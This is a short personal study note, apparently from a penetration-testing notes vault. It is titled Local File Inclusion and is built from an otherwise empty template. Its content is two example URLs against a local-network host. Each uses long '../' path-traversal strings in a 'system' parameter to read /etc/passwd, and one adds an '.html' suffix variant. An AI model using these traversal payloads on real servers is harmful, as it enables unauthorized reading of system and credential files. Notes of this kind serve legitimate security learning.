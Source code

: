 ```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[LFI]]  
___

## Description:  
### Local File Inclusion

`http://192.168.1.70/index.php?system=../../../../../../../../../../../../../../../../../etc/passwd

if that doesn't work try

`http://192.168.1.70/index.php?system=../../../../../../../../../../../../../../../../../etc/passwd.html



___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (01:32 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
